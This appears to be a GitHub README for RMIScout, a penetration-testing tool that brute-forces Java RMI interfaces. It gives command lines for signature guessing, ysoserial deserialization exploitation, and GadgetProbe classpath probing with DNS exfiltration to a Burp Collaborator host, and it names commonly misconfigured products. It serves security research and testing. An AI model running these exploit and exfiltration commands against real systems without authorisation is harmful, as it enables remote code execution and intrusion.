



<p align="center">
  
</p>

#


### Description

RMIScout enables wordlist and bruteforce attacks against exposed Java RMI interfaces to safely guess method signatures without invocation. It supports multiple Java RMI protocols, method invocation, and exploitation.

### Feature overview

* Supports multiple types of Java RMI servers:
	* RMI-JRMP (AKA plain RMI; usually port 1099): Remote object registry service (rmiregistry)
	* [RMI Activation Stubs via rmid](https://docs.oracle.com/javase/7/docs/technotes/guides/rmi/activation/overview.html)
	* [RMI-IIOP: Java CORBA programming model (orbd; usually port 1050)](https://en.wikipedia.org/wiki/RMI-IIOP)
		* IIOP requires JRE 1.8 to use. Due to deprecation in later runtimes.
	* RMI-SSL
* Multiple modes of operation
	* **wordlist mode:** Test for remote methods using a wordlist of signatures (see included lists/prototypes.txt)
	* **bruteforce mode:** Given a wordlist of method names generate signatures with various parameter types, # of params, and return types.
	* **exploit mode:** Use ysoserial to exploit remote methods with non-primitive parameters.
		* Requires rmiscout to be run with JRE 1.8 for ysoserial to work properly.
	* **probe mode:** Use [GadgetProbe](https://github.com/bishopfox/gadgetprobe) to identify classes in the remote classpath
	* **invoke mode:** Directly invoke remote methods by specifying a method signature and parameter values from the command line (primitives, arrays, and Strings only).
	* **list mode:** List available registries on remote server.
* Automatically switches between RMI, RMI-SSL, Activation stubs.
* Automatically performs localhost bypass techniques (e.g., registries bound to @127.0.0.1:XXXX, but still externally exposed via XXXX)


### How it works

To identify but not execute RMI functions, RMIScout uses low-level RMI network functions and dynamic class generation to send RMI invocations with deliberately mismatched types to trigger remote exceptions. All parameters are substituted for a dynamically generated serializable class with a 255-character name assumed to not exist in the remote class path. For example:

Remote Interface:
```
void login(String user, String password)
```
RMIScout will invoke:
```
login((String) new QQkzkn3..255 chars..(), (String) new QQkzkn3..255 chars..())
```
If the class is present this will result in a remote `java.rmi.UnmarshalException` cased by the `ClassNotFoundException` or argument unmarshalling error without invoking the underlying method.

For more detailed technical writeups:
* [(Original Writeup) RMIScout: Safely and Quickly Brute-Force Java RMI Interfaces for Code Execution](https://know.bishopfox.com/research/rmiscout).
* [(RMIScout Update) Lessons Learned on Brute Forcing RMI-IIOP with RMIScout](https://labs.bishopfox.com/tech-blog/lessons-learned-on-brute-forcing-rmi-iiop-with-rmiscout)


### Modes of operation


#### Wordlist mode
```
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>
```
Supply a wordlist of method prototypes to check for on the remote server. RMIScout will output all identified matches.

*For RMI-IIOP/CORBA*: Unless methods are overloaded, brute forcing and invocation only require names to match (all other information is ignored).
<p align="center">
  
</p>

#### Bruteforce mode
```
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>
```

Supply a wordlist of candidate method names, then provide a comma-delimited list of candidate return types, number range of parameters, and candidate parameter types. Bruteforce mode will generate the permutations and look for matching signatures.

<p align="center">
  
</p>

#### Exploit mode
```
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>
```
On misconfigured servers, any known RMI signature using non-primitive types (e.g., `java.util.List`), can be exploited by replacing the object with a serialized payload. This is a fairly common misconfiguration (e.g., VMWare vSphere Data Protection + vRealize Operations Manager, Pivotal tc Server and Gemfire, Apache Karaf + Cassandra)  as highlighted in  [An Trinh's 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf).

RMIScout integrates with [ysoserial](https://github.com/frohoff/ysoserial/) to perform deserialization attacks against services incorrectly configuring process-wide serialization filters ([JEP 290](https://openjdk.java.net/jeps/290)).

Examples of exploitable signatures:
```
void exampleMethod(java.util.Map a) // Any non-primitive types
void exampleMethod(float[] a) // Any type of array, even primitives
void exampleMethod(String a) // Works on older JDKs, see below...
```
*Note:* Signatures containing `java.lang.String` types are only exploitable in JRE 8/11/13/14 releases prior to early 2020 in RMI-JRMP, but are still currently exploitable in RMI-IIOP.


<p align="center">
  
</p>

#### Invoke mode
```
./rmiscout.sh invoke -p 1 -p 4 -s 'int add(int a, int b)' <host> <port>
./rmiscout.sh invoke -p 1,2,3,4 -s 'int addList(int[] a)' <host> <port>
```
RMIScout let's you invoke any signatures with primitives, primitive arrays, or Strings. More advanced types will require writing a custom client.

<p align="center">
  
</p>

#### Probe mode
```
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port>
```
RMIScout integrates with [GadgetProbe](https://github.com/bishopfox/gadgetprobe) to identify classes in the remote classpath. Class names are exfiltrated via DNS.

<p align="center">
  
</p>

### Building and Running

Use the included `rmiscout.sh` script to automatically build the project and as a convenient wrapper around `java -jar` syntax:
```bash
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>
```

Alternatively, build the project manually and use traditional `java -jar` syntax:

```bash
# Manually build JAR
./gradlew shadowJar

java -jar build/libs/rmiscout-1.4-SNAPSHOT-all.jar wordlist -i lists/prototypes.txt <host> <port>
```

**Note:** RMI-IIOP (compile/runtime) and ysoserial (runtime) depend on JDK8.

### Try It out
Run the dockerized demo RMI server. Try out the included `demo/wordlist.txt`.
```bash
cd demo
./start_demo.sh
```

### Troubleshooting

Q: How can I tell if `<host>:<port>` an RMI Registry?

Use `./rmiscout list <host> <port>` to get information about registries on a remote server.
```./rmiscout.sh list 127.0.0.1 1099
[INFO] Registries available on 127.0.0.1:1099 = [ActivationServer:com.bishopfox.example.ActivationImpl_Stub, plaintest:com.bishopfox.example.HelloInterface]
```
Or, use nmap's `rmi-dumpregistry` script:

```
nmap --script rmi-dumpregistry 172.17.0.1 -p 1099 -Pn

PORT     STATE SERVICE
1099/tcp open  rmiregistry
| rmi-dumpregistry:
|   ActivationServer
|     com.bishopfox.example.ActivationImpl_Stub
|     \x00\x0EActivatableRef
|     extends
|       java.rmi.server.RemoteStub
|       extends
|         java.rmi.server.RemoteObject
|   plaintest
|      implements com.bishopfox.example.HelloInterface,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @127.0.0.1:1111
|             extends
|_              java.rmi.server.RemoteObject
```

Q: I found a registry on port 1098 with the name `java.rmi.activation.ActivationSystem`. What can I do with it?

This is an rmid Activation System Daemon. All of its methods are restricted by the SecurityManager. More recent JREs check if the remote peer originates from localhost before deserializing any remote data. Older (pre 2011) versions did not have this check and may be vulnerable. See [https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_rmi_server.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_rmi_server.rb)

Q: Can I run RMIScout with a newer runtime than JRE 8?

A: Technically yes, but a variety of features will stop working. CORBA support, probe support, and ysoserial (exploit mode) mandate a JRE 8 dependency.

Q: Why am I getting a `CannotCompileException`?

A: A `CannotCompileException` occurs when an invalid method name or prototype is supplied directly or via a wordlist. RMIScout generates bytecode for user-supplied candidate signatures at runtime. Although RMIScout has basic rules for correcting common syntax errors in user-supplied prototypes, it will sometimes fail.

### Author

Twitter: [@BumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
